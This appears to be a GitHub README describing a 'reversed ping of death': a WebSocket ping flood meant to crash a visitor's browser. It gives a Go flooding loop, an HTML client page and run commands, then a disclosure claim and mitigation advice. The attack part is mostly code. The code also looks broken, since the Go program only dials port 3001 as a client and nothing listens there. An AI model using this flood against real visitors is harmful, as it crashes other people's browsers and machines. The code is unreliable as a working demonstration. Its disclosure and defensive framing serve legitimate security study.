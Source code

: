 # websocket-reversed-ping-of-death

Warning: The following action may cause a visitor’s browser or even their computer to crash. This information is provided for educational purposes only. Use it responsibly.

I do not encourage or condone the misuse of this knowledge, and I disclaim any responsibility for any damage, disruption, or unintended consequences resulting from its use. Proceed at your own risk.

---

One of the first things someone learns in martial arts is that when you hold someone, that someone holds you too. If, for example, that someone falls on purpose while you’re holding them tightly, chances are you might fall too.

Even though there isn’t a special name for this idea, it can be found in Aiki martial arts principle, where the main point is that the opponent’s energy becomes a tool in your hands if you redirect it wisely.

When you write a program that handles WebSocket connections, one of the main security concerns is preventing a client from flooding you with messages or pings with bad intentions.

But what if I told you that, on the other side, no browser checks if you flood it with messages or pings in bad faith—and it just ends up crashing?

You can easily test this yourself:

1. Bookmark this page first, so you can return after a crash.
2. Write a Go program that opens a WebSocket connection and continuously sends pings in a highly repetitive loop:

main.go:
```
package main

import (
   "log"
   "time"
   "github.com/gorilla/websocket"
)

func main() {
   url := "ws://localhost:3001"
   conn, _, err := websocket.DefaultDialer.Dial(url, nil)
   if err != nil {
       log.Fatal("Error connecting to WebSocket:", err)
   }
   defer conn.Close()

   for {
       err := conn.WriteMessage(websocket.PingMessage, nil)
       if err != nil {
           log.Println("Error sending ping:", err)
           return
       }
   }
}
```

3. Write an HTML page that connects to this WebSocket connection:
index.html:
```
<!DOCTYPE html>
<html lang="en">
<head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <title>WebSocket Reversed Ping of Death</title>
</head>
<body>
   <h1>WebSocket Reversed Ping of Death</h1>

   <!-- - - -->

   <script>
       const socket = new WebSocket("ws://localhost:3001/ws");

       /*** * * ***/

       socket.onerror = (error) => {
           console.error("WebSocket error:", error);
       };

       socket.onopen = () => {
           console.log("WebSocket connected.");
       };

       socket.onclose = () => {
           console.log("WebSocket closed.");
       };

       socket.onmessage = (event) => {
           console.log("WebSocket received:", event.data);
       };
   </script>
</body>
</html>
```

4. Run the Go program:
```
go mod init main
go mod tidy
go run main.go
```

5. Start a simple HTTP server to serve index.html:
   (If port 3002 is not available, pick another one, e.g. 3003…)
```
python3 -m http.server 3002
```

6. Open the page in your browser. For example:
   (If port 3002 was not available, use the other one that you picked)
```
http://localhost:3002
```

Of course, the reason I’m writing these lines is not to enable script kiddies to annoy others, but to highlight a problem and propose a solution. Just to clarify, I am publishing this article only after having contacted major browser developers and submitted bug reports to ensure better client-side security checks for everyone.

Until all browsers implement a check, you can take care of your self, by :

1. If visiting a site crashed your computer, be aware that it’s possible and that it may be just this method above described used. Don’t panic and don’t believe everything.
2. If you develop an application that is depended on a third-party WebSocket, then a) check if you receive messages in an abnormal interval and b) connect through a proxy that checks if the connection is sending pings, pongs or any other exotic frame in an abnormal interval. A proxy is needed simply because browsers doesn’t expose such things to the applications.
